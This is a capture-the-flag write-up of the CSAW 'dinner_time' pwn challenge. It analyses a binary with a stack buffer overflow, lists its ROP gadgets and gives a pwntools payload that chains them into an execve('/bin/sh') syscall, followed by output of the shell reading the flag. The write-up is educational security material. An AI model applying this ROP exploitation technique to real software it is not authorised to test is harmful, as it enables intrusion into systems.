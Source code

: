# Description #
dinner\_time
150

Have this delicious meal

nc pwn.chal.csaw.io 10104

# Running the binary #

At first nothing seemed to happen ...

```
./dinner
What will you be having for dinner !! (:

pasta?
```

But if we sent a bigger input value we got a segmentation fault ...

```
./dinner
What will you be having for dinner !! (:

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```

# Analyzing the binary #

Checking the binary with radare2 quickly revealed that there were some suspicious functions called
entree\_x ...

```
[0x004005cb]> s sym.entree_1
[0x004005a6]> pd
┌ (fcn) sym.entree_1 7
│   sym.entree_1 ();
│           0x004005a6      55             push rbp
│           0x004005a7      4889e5         mov rbp, rsp
│           0x004005aa      0f05           syscall
└           0x004005ac      c3             ret
            0x004005ad      90             nop
            0x004005ae      5d             pop rbp
            0x004005af      c3             ret
┌ (fcn) sym.entree_2 6
│   sym.entree_2 ();
│           0x004005b0      55             push rbp
│           0x004005b1      4889e5         mov rbp, rsp
│           0x004005b4      5f             pop rdi
└           0x004005b5      c3             ret
            0x004005b6      90             nop
            0x004005b7      5d             pop rbp
            0x004005b8      c3             ret
┌ (fcn) sym.entree_3 6
│   sym.entree_3 ();
│           0x004005b9      55             push rbp
│           0x004005ba      4889e5         mov rbp, rsp
│           0x004005bd      5e             pop rsi
└           0x004005be      c3             ret
            0x004005bf      90             nop
            0x004005c0      5d             pop rbp
            0x004005c1      c3             ret
┌ (fcn) sym.entree_4 6
│   sym.entree_4 ();
│           0x004005c2      55             push rbp
│           0x004005c3      4889e5         mov rbp, rsp
│           0x004005c6      5a             pop rdx
└           0x004005c7      c3             ret
            0x004005c8      90             nop
            0x004005c9      5d             pop rbp
            0x004005ca      c3             ret
┌ (fcn) sym.entree_5 6
│   sym.entree_5 ();
│           0x004005cb      55             push rbp
│           0x004005cc      4889e5         mov rbp, rsp
│           0x004005cf      58             pop rax
└           0x004005d0      c3             ret
            0x004005d1      90             nop
            0x004005d2      5d             pop rbp
            0x004005d3      c3             ret
```

Inspecting the strings we noticed that we also had the string /bin/sh stored in the binary ...

```
[0x004005a6]> iz
000 0x00000698 0x00400698   7   8 (.rodata) ascii /bin/sh
001 0x000006a0 0x004006a0  42  43 (.rodata) ascii What will you be having for dinner !! (: \n
```

It seems that these functions (gadgets) will be very useful since the NX protection is enabled
for the binary, this will prevent us to run code from the stack ...

```
gef➤  checksec
[+] checksec for '/home/foobar/ctf/csawrt-18/pwning/Dinner_Time/dinner'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

We have a fairly big buffer to work with, around 1024 bytes ...

```
0x004005ed      488d45d0       lea rax, [s]
0x004005f1      be00040000     mov esi, 0x400                       ; 1024 ; int size
0x004005f6      4889c7         mov rdi, rax                         ; char *s
```

Our first writable return address is at offset 56, this happens because we only have 0x30 bytes
reserved on the current stack frame for our input buffer while been able to send 0x400 (1024)
bytes as our input ...

We can use syscall instruction to call execve("/bin/sh", ["/bin/sh"],NULL) so we need to push 
the values 0x3b (execve) to rax, 0x004005fe to rdi and 0x0 to rsi and rdx.

Lets start by setting the value 0x3b in RAX ...

We will create a padding of 56 bytes and add the value 0x004005cf, after that we will add 8 bytes
just to make space for the next return value, if we send our buffer we can verify that we were
able to land in the entree\_5 function, we also can see that our next saved ret is 0x42424242... the
value we set earlier ...

```py
buf = cyclic(56,n=8) + p64(0x004005cf) + "\x41" * 8 + "\x42" * 8
```

![selection](./imgs/selection.png)

After sending our buffer, we can verify that the registers have the values we need ..

![Registers](./imgs/regs.png)

Our final buffer ended up like this ...

```py
buf = cyclic(56,n=8)                      # padding 
buf += p64(0x004005b4) + p64(0x00400698)  # rdi = "/bin/sh" 
buf += p64(0x004005bd) + p64(0x0)         # rsi = 0
buf += p64(0x004005c6) + p64(0x0)         # rdx = 0
buf += p64(0x004005cf) + p64(0x3b)        # rax = 0x3b
buf += p64(0x004005aa) + "\x41" * 8       # syscall
```

# Getting the flag #
```
python exploit.py remote
[+] Opening connection to pwn.chal.csaw.io on port 10104: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
                                `
     . ,
      *    ,
 ` *~.|,~* '
 '  ,~*~~* `     _
  ,* / \`* '    //
   ,* ; \,O.   //
       ,(:::)=//
      (  `~(###)
       %---'`"y
        \    /
         \  /
        __)(__  hjw
       '------`                                `
     . ,
      *    ,
 ` *~.|,~* '
 '  ,~*~~* `     _
  ,* / \`* '    //
   ,* ; \,O.   //
       ,(:::)=//
      (  `~(###)
       %---'`"y
        \    /
         \  /
        __)(__  hjw
       '------`                                `
What will you be having for dinner !! (:

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaa\xb4^E@^@^@^@^@^@\x98^F@^@^@^@^@^@\xbd^E@^@^@^@^@^@^@^@^@^@^@^@^@^@E@^@^@^@^@^@^@^@^@^@^@^@^@^@E@^@^@^@^@^@;^@^@^@^@^@^@^@\xaa^E@^@^@^@^@^@AAAAAAAA
$ ls
ls
art.txt  dinner  flag.txt  run.sh
$ cat flag.txt
cat flag.txt
flag{yuUUmmm[EDITED]}
```
